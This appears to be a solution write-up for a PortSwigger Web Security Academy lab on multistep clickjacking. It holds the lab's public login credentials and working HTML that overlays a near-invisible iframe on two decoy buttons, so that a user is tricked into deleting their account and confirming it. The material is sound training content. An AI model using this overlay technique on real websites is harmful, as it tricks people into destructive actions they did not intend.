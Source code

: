 # Multi### stepclickjacking

## This lab has some account functionality that is protected by a [CSRF](https://portswigger.net/web-security/csrf) token and also has a confirmation dialog to protect against [Clickjacking](https://portswigger.net/web-security/clickjacking). To solve this lab construct an attack that fools the user into clicking the delete account button and the confirmation dialog by clicking on "Click me first" and "Click me next" decoy actions. You will need to use two elements for this lab.

## You can log in to the account yourself using the following credentials: `wiener:peter`

```html
<style>
  iframe {
    position: relative;
    width: 700px;
    height: 700px;
    opacity: 0.0001;
    z-index: 2;
  }

  .firstClick,
  .secondClick {
    position: absolute;
    top: 497px;
    left: 60px;
    z-index: 1;
  }
  .secondClick {
    top: 295px;
    left: 208px;
  }
</style>
<div class="firstClick">Click me first</div>
<div class="secondClick">Click me next</div>
<iframe
  src="https://0a29006803c165ae8292162000de007e.web-security-academy.net/my-account"
></iframe>
```
